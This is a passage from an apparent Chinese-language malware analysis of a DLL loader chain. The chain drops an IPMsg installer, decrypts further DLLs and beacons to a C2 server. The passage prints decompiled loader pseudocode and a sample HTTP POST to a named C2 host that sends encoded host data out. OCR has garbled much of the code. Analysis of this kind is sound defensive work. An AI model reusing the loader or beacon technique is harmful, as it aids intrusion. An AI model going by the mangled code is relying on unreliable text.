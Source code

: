 ATT_Loader_DLL.dll在%appdata%\installer.exe路径下释放了官方版本IPMsgInstaller5.6.18.0程序，并打开执行。  

$v37~=~\mathsf{v}14$ $v38~=~v6$ memcpy(v18,v13, $2~^{*}~\vee14~+~2^{*}$ ；goto LABEL_41;$\lor37~=~\lor45:$ $\vee38~=~7\dot{1}64$ $v36~=~*_{\vee13}$ ；LABEL_41:sub_1800011c0(lpFile,&v36,&v33); //%appdata%\installer.exev19 = lpFile;if （si128.m128i_i64[1] $>$ 7ui64）v19 = lpFile[0];She1lExecuteW(0i64,L"open"，v19,0i64,0i64,1);  

接着，程序加载了数据段中保存的另一个DLL文件，导出名为Loader1.dll，并执行了其导出函数GetsPrintW。  

v20 = sub_180001DD0();   
if（v20）   
{ strcpy(String1,"GetsPrintW"); $\vee21=\vee2\Theta[1]$ $v22~=~*_{\vee}2\Theta$ if（!\*（v22+140）） goto LABEL_50; $\times23=(\vee21+*(\vee22+136))$ if（!v23[6]|l!v23[5]) goto LABEL_50; $\lor24={\big(}\lor21+\lor23[8]{\big)}$ $\lor25={\big(}\lor21+\lor23[9]{\big)}$ $v26=\theta$ while（stricmp(String1, $(\vee21+*\vee24)$ ）） { ++v26; ++v24; ++v25; if（v26 >=v23[6]) goto LABEL_50; $v29=*_{\mathsf{V}}25$ ； if（v29<=v23[5]） $\vee27~=~\left(\vee21~+~{^*(4~^{*}~\vee29~+~\vee21~+~\vee23[7])}\right)$ else  

![](https://cdn-mineru.openxlab.org.cn/extract/7cf926ab-41ab-4c45-acf9-ad28c3ea3d17/6e245ee88cfe41bcdd0394459b165b3acc2816f7d574a6fd06fedd5feb11787e.jpg)  
图4 释放官方IPMsgInstaller程序  

Loader1.dll再次解密了一个DLL文件，并加载了其导出函数GetWindowSizedW。在这个过程中，再次解密的DLL导出模块名为DII64.dll。  

![](https://cdn-mineru.openxlab.org.cn/extract/7cf926ab-41ab-4c45-acf9-ad28c3ea3d17/7e8ccc2d01a07c6af1dbb005cf0cceeb37eb1b956fc9d3c5f47afc0d9058e6ec.jpg)  
图6解密和加载Dll64.dl  

DIl64.dll将DLL校验值和系统当前时间进行Base64编码，然后生成一些包含随机字符的字符串，并将其作为HTTP请求的一部分发送出去。以下是一个示例：  

# 表1HTTP请求示例  

POST /upgrade/latest.asp HTTP/1.1   
Content-Type: application/x-www-form-urlencoded   
Connection: Keep-Alive   
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2; Win64; x64; Trid ent/8.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3. 5.30729)   
Host: cryptocopedia.com   
Content-Length: 165   
Cache-Control: no-cache   
NT $=$ OTDJHGPNHK&WPKQO $=$ MDcwMTYONDB6NUYyNWg4Nw $==$ &AQUG $=$ &LKJ $\mathtt{G D Z}=0$ &HCRPGG $=52$ &GFJLEC $=$ MgAwADIANAAtADEAMQAtADEANQAgADEAMg A6ADEANAA6ADAAOQA $\underline{{\underline{{\mathbf{\Pi}}}}}$ &QTUYVKP $=$ VEAADXTKHXWDDO&AMMMWIFVR=OM  

![](https://cdn-mineru.openxlab.org.cn/extract/7cf926ab-41ab-4c45-acf9-ad28c3ea3d17/16512b19308886afb393b611aa813e57e0a4c0379151b0351c1725b8cbf572cc.jpg)  
图7通过随机字符串创建HTTP请求并发送请求  

# 随后，样本从命令和控制（C2）服务器接收数据。  

![](https://cdn-mineru.openxlab.org.cn/extract/7cf926ab-41ab-4c45-acf9-ad28c3ea3d17/7099640ba42d0d631a571b8b77bc2a1abf2a4a16a97f16cff4e06077fbffd9f7.jpg)  
图8接收数据  

接下来，样本对接收到的数据进行处理，将其中的空格替换为 $^+$ 符号。  

![](https://cdn-mineru.openxlab.org.cn/extract/7cf926ab-41ab-4c45-acf9-ad28c3ea3d17/d0b11c342384395bdf9281087dd9ba923d4eb11417902a2375653b72152b440f.jpg)  
图9替换空格代码  
